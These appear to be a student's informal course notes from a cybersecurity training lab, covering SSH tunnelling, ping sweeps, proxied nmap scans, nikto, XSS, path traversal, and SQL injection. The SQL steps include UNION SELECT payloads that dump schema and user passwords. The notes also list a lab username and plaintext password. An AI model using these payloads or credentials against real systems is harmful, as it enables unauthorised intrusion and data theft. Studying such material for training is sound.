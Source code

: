 Network Recon -
Weaponozaton -
Delivery -
Exploitation -
Installation -XX
Command and Control - 
Actin on Objectives -
- ssh -MS /tmp/jump student@10.50.37.37 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
sudo proxychains nmap -Pn -sT -T4 -p1-10000 ip 2>/dev/null

sudo apt install nikto -y
Network Recon -
Weaponozaton -
Delivery -
Exploitation -
Installation -XX
Command and Control - 
Actin on Objectives -
- ssh -MS /tmp/jump student@10.50.37.30 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
sudo proxychains nmap -Pn -sT -T4 -p1-10000 ip 2>/dev/null

sudo apt install nikto -y
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;# -----GOLDEN Statement for sql injecting


# Notes
ip 10.50.24.239
username LOCH-003-M
password b5jiQouilMxguhI and no
stack 9
xfreerdp /v:10.50.23.50 /u:student +clipboard +dynamic-resolution +glyph-cache
ssh student@10.50.33.11 -X
sudo apt install nikto -y # install nitko
ssh -MS /tmp/jump student@10.50.24.239
ssh -S /tmp/jump dummy
---
## Links
- (student guide)[https://sec.cybbh.io/public/security/latest/index.html]
- (cctc)[http://10.50.20.250:8000/resources]
- (vta)[https://vta.cybbh.space/horizon/project/instances/]
- (cve)[https://cve.mitre.org/]
- (exploit db)[https://www.exploit-db.com/]
---
## **Quick Find**
1.
---
## **definitons**
- executive summery - non technical just basic info to officer
- techical summary - indepth for peers
## **notes**
- attack model
  1. Reconnaissances - harvest emails, social engenering, passive , active
    - open source intelligence
    - **DOCUMENT SHIT** what, how, out come if error why, how it was fixed
    - collection - info important to misson
    -
  2. Weaponization -
    - using the creds you got from recon
    - using vunribilitys
    - collection - not attack
    - effect - attack
    - **TEST** - make sure that when you run a exploit it will not brake shit
    - plan - document results and what need to be fixed
    -
  3. Delivery
    -
  4. Explotation
    -
  5. Installation
    -
  6. Command and control
    -
  7. Action on objecyives
    -
- post is sending info
- get is reseving info
- head is geting header info and transfer status
- put is used to create and up date like appending
- http code
  - 10X == Informational
  - 2XX == Success
  - 30X == Redirection
  - 4XX == Client Error
  - 5XX == Server Error
- http is the frame css the design js is the functanaity
- cross site sripting the procces of injecting javacode in to a ligit site that runs js on users browser
- cross site scripting the Unsanitized GET, POST, and PUT methods allow JS to be placed on websites
- two types of XSS
  - refective not perstant
  - stored persistant
- when attacking a file look up or pass though prompt ../../../../../file/name
- SQL is a bitch and pickie with its syntex
- data base and scema are the same
- select and union are most important
- dont look at defult schemas
  - information_schema
  - mysql
  - performance_scemma
  - steps
   1. find what works with options' or 1='1
   2. find colloms with otions that worked; UNION SELECT 1,2,3,4,5;#
   3. ********UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;#  fill in the info fro left to right********
   4. Audi' UNION SELECT id,2,name,pass,5 FROM session.user;# craft new gold statment
## **code**
- multiplexing tunneling
  - M multiplex
  - S where we save
  - O uses forward and cancel
- nitko -h ip or web address
- SQL
  - SHOW DATABASES; # shows database
  - USE session; # like cd
  - SELECT * FROM session; shows all items in the data base
  - select * from session.car # gets info from the item in that database in this case car
  - select * from session.Tire UNION select name,type,cost,color from session.car;
  - ' OR 1='1 select * from users where user = '' OR 1 = '1'
  - # and -- comment
  - @@ version # give verson
  - UNION SELECT 1,2,3,4,5;#
  - UNION select <column>,<column>,<column> from <database>.<table>
## **how to use**
- ssh -MS /file/location creds@ip
- ssh -S same/file something
- ssh -S /same/file -O forward -D 9050 || -L port:ip:port dummy
- for i in {1...254}; do (ping -c 1 ip.$i | grep "bytes from" &); done
- proxychains sudo nmap -Pn -T4 -sT -p1-10000 ip 2>/dev/null
- proxychains sudo nmap -Pn -T4 -sT -p 80,8080 ip --script http-enum.nse|smb-os-discovery.nse  2>/dev/null
## **examples**
- ssh -MS /tmp/jump student@10.50.24.239 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
- ssh -S /tmp/jump -O cancel -D 9050 dummy # ends forward
- ssh -S /tmp/jump -O forward -L 3333:192.168.28.111:2222 dummy
- ssh -S /tmp/jump -O cancel -L 3333:192.168.28.111:2222 dummy
## scan script
- for i in {96..126}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
## scans that are useful
- proxychains sudo nmap -Pn -T4 -sT -p1-10000 192.168.28.111 2>/dev/null
- proxychains sudo nmap -Pn -T4 -sT -p 80,8080 192.168.28.111 --script http-enum.nse|smb-os-discovery.nse  2>/dev/null
https://webbreacher.files.wordpress.com/2018/07/data-collection3.png?w=1136
cve.mitre.orgcve.mitre.org
CVE -  CVE
The mission of the CVE® Program is to identify, define, and catalog publicly disclosed cybersecurity vulnerabilities.
